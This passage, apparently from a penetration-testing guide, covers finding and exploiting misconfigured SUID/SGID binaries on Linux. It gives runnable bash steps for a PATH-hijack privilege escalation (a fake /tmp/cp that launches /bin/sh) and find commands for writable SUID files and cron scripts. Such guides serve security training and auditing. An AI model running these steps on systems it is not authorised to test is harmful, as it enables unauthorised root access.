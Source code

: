 ## Determining Exploitability

After finding them we need to find if they can be used for privilege escalation, there are a **few options available**:

-   **[GTFOBins](https://gtfobins.github.io/)**: here we can find a complete list of all exploitable SUIDs and GUIDs as well as their command to escalate privileges.
    
-   **Custom SUID/SGID Files**: If custom binaries or scripts are found with SUID/SGID permissions (especially those created by users), they may be misconfigured and vulnerable.

```bash
# Option 1: Use strings to examine the contents.
strings /path/to/suid-binary

# Option 2: Check for system calls or file execution.
ltrace /path/to/suid-binary

# Option 3: Exploit PATH Vulnerability: if the SUID binary calls another program (e.g., /bin/cp or /bin/sh), you might be able to manipulate the $PATH variable to run your own malicious binary instead.
# Create a malicious version of the expected program
echo '/bin/sh' > /tmp/cp
chmod +x /tmp/cp

# Modify PATH to prioritize your malicious version
export PATH=/tmp:$PATH

# Run the vulnerable SUID program
/path/to/suid-program
```

-   **Examine Writable SUID Binaries**: If any SUID binaries are writable, you can modify them directly to add malicious code; this is extremely rare but worth checking.

```bash
# Find writable SUID files
find / -perm -u=s -writable -type f 2>/dev/null

# If a writable SUID binary is found, you can inject your own code and run it with elevated privileges.
```

-   **Finding Potentially Dangerous Custom Scripts**: often, custom scripts used in cronjobs or other automated tasks may have the SUID/SGID bit set or be writable. If they are writable by your user, you can edit these scripts to escalate privileges.

```bash
# Find scripts in cronjobs or system directories that may have SUID or GUID set
find /etc/cron* /var/spool/cron/ -perm -u=s -type f 2>/dev/null
```

## Scripts

## LinPEAS

